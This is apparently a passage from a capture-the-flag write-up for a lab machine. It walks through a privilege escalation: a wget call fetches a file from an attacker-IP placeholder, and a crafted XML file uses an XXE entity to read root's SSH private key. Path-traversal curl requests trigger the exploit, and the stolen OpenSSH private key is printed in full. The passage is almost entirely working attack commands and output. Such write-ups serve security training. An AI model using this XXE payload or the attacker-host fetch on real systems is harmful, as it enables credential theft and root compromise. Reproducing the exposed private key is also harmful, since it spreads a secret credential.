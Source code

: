	wget <attacker_ip>/greg.jpg

###### Craft a malicious xml file to grab root's SSH private key

Victim:

	vi privesc_creds.xml

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY key SYSTEM "file:///root/.ssh/id_rsa"> ]>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/../../../../../../../home/woodenk/greg.jpg</uri>
    <privesc>&key;</privesc>
    <views>0</views>
  </image>
  <totalviews>0</totalviews>
</credits>
```

	cp greg.jpg privesc_creds.xml /home/woodenk

###### Trigger the exploit

Attacker:

	curl http://10.10.11.170:8080 -H "User-Agent: ||/../../../../../../../home/woodenk/greg.jpg"

	curl http://10.10.11.170:8080/export.xml?author=woodenk | /dev/null

Victim:

After a few moments...

	cat /home/woodenk/privesc_creds.xml

```shell-session
<?xml version="1.0" encoding="UTF-8"?>
<!--?xml version="1.0" ?-->
<!DOCTYPE replace>
<credits>
  <author>woodenk</author>
  <image>
    <uri>/../../../../../../../home/woodenk/greg.jpg</uri>
    <privesc>
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQAAAJBRbb26UW29
ugAAAAtzc2gtZWQyNTUxOQAAACDeUNPNcNZoi+AcjZMtNbccSUcDUZ0OtGk+eas+bFezfQ
AAAECj9KoL1KnAlvQDz93ztNrROky2arZpP8t8UgdfLI0HvN5Q081w1miL4ByNky01txxJ
RwNRnQ60aT55qz5sV7N9AAAADXJvb3RAcmVkcGFuZGE=
-----END OPENSSH PRIVATE KEY-----
</privesc>
    <views>3</views>
  </image>
  <totalviews>3</totalviews>
</credits>
```
